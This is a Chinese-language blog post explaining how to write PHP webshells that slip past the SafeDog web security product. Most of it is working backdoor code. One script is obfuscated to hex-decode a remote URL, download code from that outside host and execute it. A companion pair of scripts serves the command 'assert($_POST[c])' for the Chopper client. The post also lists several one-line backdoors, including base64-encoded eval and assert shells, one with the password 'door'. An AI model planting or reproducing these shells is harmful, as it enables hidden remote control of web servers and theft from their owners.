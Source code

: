 ```yaml
---
title: php webshell
author: tank96a
layout: post
categories:
  - article
tags:
  - php
  - webshell
---
```


  研究了一下过狗原理，自己写了个一句话。

过狗php大马一枚,有人翻译如下，省了我不少事。
{% highlight php %}
<?php 
define('iphp','oday');
define('T','H*');
define('A','call');
define('B','user');
define('C','func');
define('D','create');
define('E','function');
define('F','file');
define('F1','get');
define('F2','contents');
define('P','pack');
$p = P;  //pack
$call = sprintf('%s_%s_%s',A,B,C); //call_user_func
$create = sprintf('%s_%s',D,E);    //create_function
$file = sprintf('%s_%s_%s',F,F1,F2); //file_get_contents 远程文件读取
$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');
//$call($create(null,$p(T,$file($p(T,join(null,$t))))));
call_user_func(create_function(null,pack('H*',file_get_contents(pack('H*',join(null,$t))))));
?>
{% endhighlight %}

{% raw %}
<pre>
写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c
</pre>
{% endraw %}

两个脚本代码如下：
{% highlight php %}
<?php 
//webshell.php
//echo pack('H*', base_convert('0011000000111010', 2, 16));
//echo pack('H*', '61737365727428245f504f53545b635d293b');
//call_user_func(create_function(null,'echo (1+2);'));
//call_user_func(create_function(null,'assert($_POST[c]);'));

$url='http://localhost/DebugPHP/getcode.php?call=code';
call_user_func(create_function(null,pack('H*',file_get_contents($url))));
?>

<?php
//getcode.php    
//assert($_POST[c]);
$cmd=$_GET['call'];
if ($cmd=='code')  
   echo sprintf('61737365727428245f504f53545b635d293b');
?>
{% endhighlight %}

 
其他一句话：
{% highlight php %}
<?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
<?php call_user_func(create_function(null,'assert($_POST[c]);'));?>

//口令是： door
<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGVjb2RlKFpYWmhiQ2hpWVhObE5qUmZaR1ZqYjJSbEtFeDVPRGhRTTBKdlkwRndiR1J0Um5OTFExSm1WVVU1VkZaR2RHdGlNamw1V0ZOclMweDVPQzVqYUhJb05EY3BMbEJuS1NrNykpOw));?>
{% endhighlight %}

php函数参考网站：
[create_function](http://php.net/manual/en/function.create-function.php)
[pack](http://php.net/manual/en/function.pack.php)

